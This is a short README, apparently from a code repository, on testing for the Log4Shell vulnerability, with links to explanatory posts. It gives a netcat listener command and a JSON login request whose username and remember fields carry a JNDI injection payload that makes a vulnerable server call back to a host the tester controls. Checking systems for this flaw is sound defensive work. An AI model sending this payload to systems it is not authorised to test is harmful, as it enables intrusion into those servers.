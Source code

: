 ## info
general info: https://0xcybery.github.io/blog/Log4Shell  
more detailed: https://www.lunasec.io/docs/blog/log4shell-live-patch-technical/

## testing

run netcat listener:
```bash
nc -nlvp 443
```
use payload in request e.g.:
```json
{
	"username":"${jndi:ldap://YOUR-IP:443}",
	"password":"qwdqwd",
	"remember":"${jndi:ldap://YOUR-IP:443}",
	"strict":true
}
```